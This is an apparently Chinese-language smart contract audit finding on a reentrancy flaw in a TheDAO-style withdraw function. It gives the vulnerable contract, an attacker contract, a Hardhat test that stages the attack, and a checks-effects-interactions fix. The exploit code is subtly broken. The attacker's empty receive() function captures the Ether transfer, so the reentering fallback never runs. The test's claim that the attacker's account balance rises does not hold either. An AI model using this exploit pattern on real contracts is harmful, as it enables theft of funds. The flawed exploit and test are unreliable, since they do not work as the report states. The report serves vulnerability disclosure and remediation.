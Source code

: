 # 智能合约审计报告

## 漏洞明细

### 合约的 withdraw 函数可以被重入攻击转移全部资产

- **严重性**：高
- **困难度**：低
- **目标**：TheDAO 合约的 withdraw 函数

#### 描述

重入攻击是当攻击者能够在原合约完成所有状态更新之前，多次调用并执行一个函数。在`TheDAO`合约的 `withdraw` 函数中，资金在更新状态变量之前被发送给调用者，这使得调用者可以在单个交易中多次提取资金。

下面是 `TheDAO` 合约的代码片段：

```solidity
contract TheDAO {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint amount = balances[msg.sender];
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success, "Transfer failed.");
        balances[msg.sender] = 0;
    }
}
```

在 `withdraw` 函数中，首先通过 `call` 方法向调用者发送资金，然后才更新 `balances` 映射。如果调用者是一个恶意合约，其回退函数可以再次调用 `withdraw`，从而在 `balances` 映射被更新之前多次取款。

#### 攻击场景

攻击者创建并部署以下攻击合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

import "./TheDAO.sol";

contract TheDAOAttacker {
    TheDAO public theDAO;
    address payable owner;

    constructor(address theDAOAddress) {
        theDAO = TheDAO(theDAOAddress);
        owner = payable(msg.sender);
    }

    function attack() external payable {
        theDAO.deposit{value: msg.value}();
        theDAO.withdraw();
    }

    // 回退函数，它会在 TheDAO 合约试图将以太币发送回本合约时被调用
    fallback() external payable {
        if (address(theDAO).balance >= msg.value) {
            theDAO.withdraw();
        }
    }

    // 收回攻击获得的以太币
    function collectEther() external {
        owner.transfer(address(this).balance);
    }

    receive() external payable {
    }
}
```

攻击合约的回退函数在接收到资金时再次调用 `withdraw` 函数。通过调用 `attack` 函数，攻击者能够触发重入攻击并多次提款。

为了模拟此攻击，我们可以使用以下测试代码：

```js
const { expect } = require("chai");

describe("TheDAO", function () {
  it("Should perform re-entrancy attack", async function () {
    const [owner, attacker, user1, user2] = await ethers.getSigners();
    
    // 部署目标合约
    const TheDAOFactory = await ethers.getContractFactory("TheDAO");
    const theDAO = await TheDAOFactory.deploy();
    await theDAO.deployed();
    
    // 部署攻击合约
    const TheDAOAttackerFactory = await ethers.getContractFactory("TheDAOAttacker");
    const theDAOAttacker = await TheDAOAttackerFactory.deploy(theDAO.address);
    await theDAOAttacker.deployed();

    // 使用多个地址向目标合约存入以太币
    const depositAmount = ethers.utils.parseEther("1");
    await theDAO.connect(owner).deposit({ value: depositAmount });
    await theDAO.connect(user1).deposit({ value: depositAmount });
    await theDAO.connect(user2).deposit({ value: depositAmount });
    
    // 攻击者通过攻击合约存入1个Ether
    const attackerInitialBalance = await attacker.getBalance();
    await theDAOAttacker.connect(attacker).attack({ value: depositAmount, gasLimit: 4000000 });

    // 检查攻击者的余额，应该大于最初的余额
    const attackerFinalBalance = await attacker.getBalance();
    expect(attackerFinalBalance).to.be.gt(attackerInitialBalance);
  });
});
```

这个测试代码首先部署目标合约和攻击合约。然后使用多个地址向目标合约存入以太币，包括攻击者的地址。接着，攻击者通过调用攻击合约的`attack`函数触发重入攻击。测试代码检查攻击后攻击者的余额，如果攻击成功，攻击者的余额应该大于最初的余额。

#### 推荐修复

为防止重入攻击，建议使用检查-效应-交互的模式。首先更新 `balances` 映射，然后再发送资金。

修复后的代码片段：

```solidity
function withdraw() public {
    uint amount = balances[msg.sender];
    balances[msg.sender] = 0;
    (bool success, ) = msg.sender.call{value: amount}("");
    require(success, "Transfer failed.");
}
```

通过首先设置 `balances[msg.sender]` 为0，我们确保即使调用者再次调用`withdraw`函数，`amount`也会为0，从而防止重入攻击。